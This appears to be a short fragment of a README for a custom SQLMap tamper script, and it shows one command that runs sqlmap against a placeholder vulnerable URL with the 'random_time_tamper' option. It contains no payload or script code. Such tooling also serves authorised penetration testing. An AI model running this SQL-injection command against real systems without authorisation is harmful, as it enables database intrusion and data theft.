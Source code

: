 **Use with SQLMap**

Use the script with SQLMap:

```
sqlmap -u "http://example.com/vulnerable.php?id=1" --tamper=random_time_tamper
```
